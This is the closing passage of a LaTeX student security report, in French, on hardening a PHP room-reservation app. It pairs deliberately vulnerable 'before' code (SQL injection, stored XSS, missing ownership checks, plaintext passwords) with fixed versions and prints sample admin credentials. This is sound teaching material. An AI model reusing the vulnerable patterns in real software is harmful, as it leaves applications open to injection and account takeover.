tous les mots de passe sont immédiatement lisibles. Aucun effort de crackage nécessaire.
\end{warningbox}

\newpage

%=============================================================
% CHAPITRE 4 : REMÉDIATION
%=============================================================
\chapter{Remédiation des Vulnérabilités}

\section{Vue d'ensemble des corrections}

\begin{table}[H]
  \centering
  \small
  \begin{tabular}{p{4.5cm}p{8cm}}
    \toprule
    \textbf{Vulnérabilité} & \textbf{Correction appliquée} \\
    \midrule
    SQL Injection (login \& register) & Requêtes préparées (\texttt{prepare} + \texttt{bind\_param}) \\
    No Password Hashing & \texttt{password\_hash()} à l'inscription, \texttt{password\_verify()} à la connexion \\
    Stored XSS & \texttt{strip\_tags()} + \texttt{htmlspecialchars()} à la saisie et à l'affichage \\
    Sensitive Data Exposure & Suppression de la colonne mot de passe + \texttt{SELECT} sans password \\
    Broken Access Control & Ajout de la condition \texttt{AND user\_id = ?} dans la requête d'annulation \\
    \bottomrule
  \end{tabular}
  \caption{Récapitulatif des corrections}
\end{table}

%------------------------------------------------------------
\section{Fix 1 --- SQL Injection \& Password Hashing (login.php)}
%------------------------------------------------------------

\begin{lstlisting}[language=PHP, caption={Avant --- login.php vulnérable}]
$email    = $_POST['email'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE email = '$email'
        AND password = '$password'";
$result = $conn->query($sql);
if ($result && $result->num_rows > 0) {
    $user = $result->fetch_assoc();
    // connexion directe sans verification du hash
}
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Après --- login.php sécurisé}]
$email    = trim($_POST['email']);
$password = $_POST['password'];

// Requete preparee : impossible d'injecter du SQL
$stmt = $conn->prepare("SELECT * FROM users WHERE email = ?");
$stmt->bind_param("s", $email);
$stmt->execute();
$result = $stmt->get_result();

if ($result && $result->num_rows > 0) {
    $user = $result->fetch_assoc();
    // Verification du hash bcrypt
    if (password_verify($password, $user['password'])) {
        // connexion autorisee
    }
}
\end{lstlisting}

%------------------------------------------------------------
\section{Fix 2 --- SQL Injection \& Password Hashing (register.php)}
%------------------------------------------------------------

\begin{lstlisting}[language=PHP, caption={Avant --- register.php vulnérable}]
$nom      = $_POST['nom'];
$password = $_POST['password'];
$sql = "INSERT INTO users (nom, prenom, email, password, role)
        VALUES ('$nom', '$prenom', '$email', '$password',
                'enseignant')";
$conn->query($sql);
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Après --- register.php sécurisé}]
$nom      = htmlspecialchars(strip_tags(trim($_POST['nom'])));
$prenom   = htmlspecialchars(strip_tags(trim($_POST['prenom'])));
$email    = trim($_POST['email']);
$password = $_POST['password'];

// Hachage bcrypt du mot de passe
$hashed = password_hash($password, PASSWORD_DEFAULT);

// Requete preparee
$stmt = $conn->prepare(
    "INSERT INTO users (nom, prenom, email, password, role)
     VALUES (?, ?, ?, ?, 'enseignant')"
);
$stmt->bind_param("ssss", $nom, $prenom, $email, $hashed);
$stmt->execute();
\end{lstlisting}

%------------------------------------------------------------
\section{Fix 3 --- Stored XSS (reserver.php \& mes\_reservations.php)}
%------------------------------------------------------------

\begin{lstlisting}[language=PHP, caption={Avant --- motif non filtré}]
$motif = $_POST['motif'];
// INSERT direct en base sans filtrage
// Affichage : <td><?= $r['motif'] ?></td>
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Après --- motif filtré}]
// A la saisie : suppression des balises HTML et echappement
$motif = htmlspecialchars(strip_tags(trim($_POST['motif'])));

// A l'affichage : double protection
<td><?= htmlspecialchars($r['motif']) ?></td>
\end{lstlisting}

%------------------------------------------------------------
\section{Fix 4 --- Broken Access Control (annuler.php)}
%------------------------------------------------------------

\begin{lstlisting}[language=PHP, caption={Avant --- sans vérification de propriété}]
$id = (int)$_GET['id'];
// N'importe quel utilisateur peut annuler n'importe quelle reservation
$conn->query("UPDATE reservations SET statut='annulee'
              WHERE id=$id");
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Après --- avec vérification de propriété}]
$id      = (int)$_GET['id'];
$user_id = $_SESSION['user_id'];

// On verifie que la reservation appartient bien a l'utilisateur connecte
$stmt = $conn->prepare(
    "UPDATE reservations SET statut='annulee'
     WHERE id = ? AND user_id = ?"
);
$stmt->bind_param("ii", $id, $user_id);
$stmt->execute();
\end{lstlisting}

%------------------------------------------------------------
\section{Fix 5 --- Sensitive Data Exposure (admin/users.php)}
%------------------------------------------------------------

\begin{lstlisting}[language=PHP, caption={Avant --- mot de passe exposé}]
// SELECT * recupere tous les champs y compris password
$users = $conn->query("SELECT * FROM users WHERE role='enseignant'");

// Affichage du password en clair
<th>Mot de passe</th>
<td><code><?= $u['password'] ?></code></td>
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Après --- mot de passe exclu}]
// SELECT explicite : le champ password n'est pas recupere
$users = $conn->query(
    "SELECT id, nom, prenom, email, created_at
     FROM users WHERE role='enseignant'"
);

// La colonne mot de passe est completement supprimee du tableau
\end{lstlisting}

%------------------------------------------------------------
\section{Fix 6 --- Mise à jour de la base de données}
%------------------------------------------------------------

Les mots de passe des comptes de test dans \texttt{database.sql} ont été remplacés par
leurs équivalents hashés en \textbf{bcrypt} :

\begin{lstlisting}[language=SQL, caption={database.sql mis à jour}]
-- Avant (mots de passe en clair) :
INSERT INTO users (..., password, role) VALUES
  (..., 'admin123', 'admin'),
  (..., 'prof123',  'enseignant');

-- Apres (hash bcrypt) :
INSERT INTO users (..., password, role) VALUES
  (..., '$2y$10$roas4xJObcamZx9TEQODuO...', 'admin'),
  (..., '$2y$10$VQde.r18wmpMU4yJ.hHXKO...', 'enseignant');
\end{lstlisting}

\begin{successbox}[Résultat]
Après corrections, les mêmes identifiants fonctionnent (\texttt{admin@faculte.ma} /
\texttt{admin123}) mais les mots de passe sont désormais stockés sous forme de hash bcrypt
irréversible. Les injections SQL et XSS sont bloquées.
\end{successbox}

\newpage

%=============================================================
% CONCLUSION
%=============================================================
\chapter*{Conclusion}
\addcontentsline{toc}{chapter}{Conclusion}

Ce mini-projet nous a permis de mettre en pratique un cycle complet de sécurisation d'une
application web, couvrant quatre phases essentielles :

\begin{enumerate}
  \item \textbf{Déploiement} sur Railway avec certificat TLS automatique via Let's Encrypt,
    en appliquant le principe du moindre privilège dès la configuration de l'infrastructure.

  \item \textbf{Audit automatisé} avec OWASP ZAP en deux passes (passif + actif), révélant 14 types d'alertes dont une \textbf{injection SQL classée High} détectée automatiquement, concernant notamment
    l'absence de headers de sécurité HTTP (CSP, HSTS, X-Frame-Options) et des problèmes de
    configuration des cookies de session.

  \item \textbf{Tests manuels} ayant permis d'exploiter 7 vulnérabilités critiques :
    SQL Injection, Stored XSS, Broken Access Control, Sensitive Data Exposure et stockage
    de mots de passe en clair.

  \item \textbf{Remédiation} par correction du code source : requêtes préparées, hachage
    bcrypt des mots de passe, filtrage des entrées avec \texttt{htmlspecialchars()} et
    \texttt{strip\_tags()}, et contrôle d'accès basé sur la session.
\end{enumerate}

Ce projet illustre l'importance d'intégrer la sécurité dès la phase de développement
(\textbf{Security by Design}). La plupart des vulnérabilités identifiées résultent de
pratiques simples à éviter : utiliser des requêtes préparées, ne jamais afficher les données
utilisateur sans échappement, et ne jamais stocker de mots de passe en clair.

\begin{infobox}[Enseignement principal]
La sécurité n'est pas une fonctionnalité à ajouter après coup --- elle doit être intégrée
à chaque ligne de code, depuis la conception jusqu'au déploiement.
\end{infobox}

\end{document}





